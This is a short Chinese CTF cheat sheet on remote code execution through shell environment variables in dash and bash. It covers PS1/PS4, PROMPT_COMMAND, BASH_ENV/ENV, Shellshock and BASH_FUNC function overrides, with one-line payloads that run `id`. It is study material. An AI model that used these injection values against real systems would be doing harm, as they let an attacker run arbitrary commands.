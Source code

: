 tags:: CTF/RCE

-
- # dash
	- ```shell
	  PS4='PS4 is worked $HOME Right?' dash -x -c "echo test"
	  PS1='`id`' dash
	  PS1='$(id)' dash
	  PROMPT_COMMAND='id' dash #退出dash的时候会执行
	  ```
- # bash
	- ```shell
	  BASH_ENV='$(id 1>&2)' bash -c 'echo hello'# shell_name为bash时触发
	  PROMPT_COMMAND='id' bash	#立即执行,因为每次换行后会换到一个新的bashshell
	  ```
	- shell shock
		- ```shell
		  TEST=() { :; }; id;
		  ```
	- `BASH_FUNC`
		- 原理
			- bash可以这样设置函数
				- ```shell
				  env $'BASH_FUNC_myfunc%%=() { id; }' bash -c 'myfunc'
				  ```
			- 我们可以覆盖某些函数实现任意命令执行
				- ```shell
				  env $'BASH_FUNC_echo%%=() { id; }' bash -c 'echo hello'
				  ```
		- bash 4.2
			- ```shell
			  env $'BASH_FUNC_echo()=() { id; }' bash -c "echo hello"
			  ```
		- bash 4.4+
			- ```shell
			  env $'BASH_FUNC_echo%%=() { id; }' bash -c 'echo hello'
			  ```
	- sh兼容模式
		- ```shell
		  ENV='$(id 1>&2)' sh -i -c "echo hello"
		  ```
-
- # 参考
	- https://www.cnblogs.com/h0cksr/p/16189733.html
	-